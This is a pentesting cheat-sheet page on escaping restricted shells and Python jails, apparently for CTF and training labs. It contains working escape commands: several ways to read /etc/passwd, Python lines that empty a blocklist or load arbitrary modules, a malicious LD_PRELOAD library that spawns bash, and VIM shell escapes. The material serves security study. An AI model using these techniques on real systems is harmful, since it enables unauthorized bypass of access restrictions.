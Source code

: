 # Restricted Shells

[![linuxprivilegeescalation](../../../../_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)
[![escaping_from_jails](../../../../_badges/hacktricks/escaping_from_jails.svg)](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/escaping-from-limited-bash#bash-jails)
[![bash_restricted_shells](../../../../_badges/rootme/app_script/bash_restricted_shells.svg)](https://www.root-me.org/en/Challenges/App-Script/Bash-Restricted-shells)

<div class="row row-cols-lg-2"><div>

A restricted shell such as `rbash` is a shell that restrict the action of the user to a limited list of commands/arguments. For instance, for rbash:

* we cannot use commands with pathnames containing a "/"
* we can use `help` to list available commands
* we cannot use `cd`
* more restrictions may be in place

To escape of restricted shells, we can try to use command substitution (ex: <code>ls \`pwd\`</code>), command chaining, or editing environment variables.
</div><div>

Common tricks:

* **List files**: `echo /*` and `echo /.*`
* **Read a file**: `read f < /etc/passwd; echo $f`
* **Read a file**: `f=$(</etc/passwd); echo $f`

Use `compgen -c`, `help`, or `<tab>` to list available commands.

📚 Sometimes, `ssh [...] -t "/bin/bash --noprofile"` may work.
</div></div>

<hr class="sep-both">

## Restricted Bash (rbash)

[![bash_restricted_shells](../../../../_badges/rootme/app_script/bash_restricted_shells.svg)](https://www.root-me.org/en/Challenges/App-Script/Bash-Restricted-shells)

<div class="row row-cols-lg-2"><div>

#### Enumeration

The `readonly` command is useful to list which variable you can't edit.

```shell!
$ readonly
ENV
PATH
HOME
```

You can use `declare` to get information about your environment.

```shell!
$ declare -x # remove -x to see functions
BASH_VERSINFO=([0]="4" [1]="4" [2]="20" [3]="1" [4]="release" [5]="i686-pc-linux-gnu")
BASH_VERSION='4.4.20(1)-release'
PATH=/tmp/void/
SHELLOPTS=braceexpand:emacs:hashall:histexpand:history:interactive-comments:monitor
```
</div><div>

#### Read a file

Method using `mapfile`:

```shell!
$ mapfile array < /etc/passwd
$ echo ${array[@]}
```

Method using `history`:

```shell!
$ export HISTFILE=/etc/passwd
$ history -r
$ history
```

Method using `bind`:

```shell!
$ bind -f /etc/passwd
```
</div></div>

<hr class="sep-both">

## Python Jails

<div class="row row-cols-lg-2"><div>

#### Python Jails Enumeration

Find variables and information about your context:

```py
globals()     # global symbols (variables, functions)
locals()      # local symbols (function, method, block)
vars()        # without any argument, same as 'locals'
```

```py
__builtins__.__dict__
del __builtins__  # restore them
```

#### Python File Write

You can arbitrarily create files or python scripts using:

```py
print("Hello, World!", file=open("/dev/shm/poc", "w"))
```

#### Python File Read

```py
file=open("/etc/passwd", "r"); print(''.join(file.readlines()))
help('print') # :e/path/to/file
```
</div><div>

#### Python Jails Escape

Arbitrarily set a variable, such as the list of blocked commands:

```py
setattr(__import__('__main__'),'blocklist',[])
```

Set the path to load arbitrary Python files:

```py
setattr(__import__("sys"), "path", list(("/dev/shm/",)))
__import__("my_file")
```

Use breakpoint:

```py
breakpoint() # then write any python code
```
</div></div>

<hr class="sep-both">

## Special Scenarios

<div class="row row-cols-lg-2"><div>

#### LD_PRELOAD

[![bash_restricted_shells](../../../../_badges/rootme/app_script/bash_restricted_shells.svg)](https://www.root-me.org/en/Challenges/App-Script/Bash-Restricted-shells)

If we have access to a program that honor `LD_PRELOAD`, e.g. any command aside from the builtin functions, we may be able to pop a bash. For that to be possible, we need a malicious `.so`. 

If `gcc` is available, we can easily compile one, while it's unlikely. 

```shell!
$ echo 'void _init() {' > /tmp/test.c
$ echo 'system("/bin/bash");' >> /tmp/test.c
$ echo '}' >> /tmp/test.c
$ gcc -shared -fPIC /tmp/test.c -o /tmp/test.so -nostartfiles
$ LD_PRELOAD='/tmp/test.so' gcc
```

➡️ If gcc is available, `gcc -wrapper /bin/bash,-s .` is faster.
</div><div>

#### VIM

[![bash_restricted_shells](../../../../_badges/rootme/app_script/bash_restricted_shells.svg)](https://www.root-me.org/en/Challenges/App-Script/Bash-Restricted-shells)

If you can run VIM, it's easy to escape:

```ruby!
:set shell=/bin/bash
:shell
```
</div></div>